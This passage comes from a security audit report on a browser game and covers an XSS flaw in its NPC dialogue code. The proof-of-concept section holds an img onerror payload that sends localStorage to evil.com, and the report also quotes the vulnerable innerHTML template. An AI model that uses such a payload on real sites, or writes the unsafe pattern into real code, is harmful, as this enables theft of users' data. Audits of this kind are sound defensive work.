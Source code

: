 ```javascript
            slot.dataset.itemName = SecurityUtils.sanitizeAttribute(item.name);
            slot.dataset.itemType = SecurityUtils.sanitizeAttribute(item.type);
            slot.dataset.itemDesc = SecurityUtils.sanitizeAttribute(item.description);
        } else {
            slot.classList.add('empty-slot');
            slot.classList.remove('has-item');
            slot.innerHTML = `<div class="slot-number">${index + 1}</div>`;
        }
    });
}
```

---

### VULN-002: XSS in NPC Dialogue System
**File**: `game/core/Game.js`  
**Lines**: 365-367  
**Severity**: 🔴 **CRITICAL**  
**CVSS v3.1 Score**: **7.5** (High)  
**Verification Status**: ✅ **CONFIRMED**

#### Vulnerability Details
```javascript
// VULNERABLE CODE - Lines 365-376
dialogueDiv.innerHTML = `
    <h3 style="color: #8A2BE2; margin: 0 0 10px 0;">${npcName}</h3>
    <p style="margin: 0 0 15px 0;">${message}</p>  // ⚠️ XSS VECTOR
    <button onclick="this.parentElement.remove()" ...>Close</button>
`;
```

#### Proof of Concept
```javascript
// If NPC system is enabled:
window.game.showDialogue(
    'Evil NPC',
    '<img src=x onerror="alert(\'Malicious NPC Dialogue\'); fetch(\'https://evil.com?data=\'+JSON.stringify(localStorage));">'
);
// Result: XSS executes when dialogue displays
```

#### Impact Analysis
- ⚠️ **Full XSS execution** during NPC interactions
- ⚠️ **Data exfiltration** via malicious NPC dialogues
- ⚠️ **Game flow manipulation** (redirect during quest dialogues)
- ⚠️ **Future multiplayer risk** if NPC dialogues are user-generated

#### Remediation (SECURE)
```javascript
showDialogue(npcName, message) {
    console.log(`${npcName}: ${message}`);
    
    const dialogueDiv = document.createElement('div');
    dialogueDiv.style.cssText = `
        position: fixed;
        top: 50%;
        left: 50%;
        transform: translate(-50%, -50%);
        background: rgba(0, 0, 0, 0.9);
        color: white;
        padding: 20px;
        border-radius: 10px;
        border: 2px solid #8A2BE2;
```
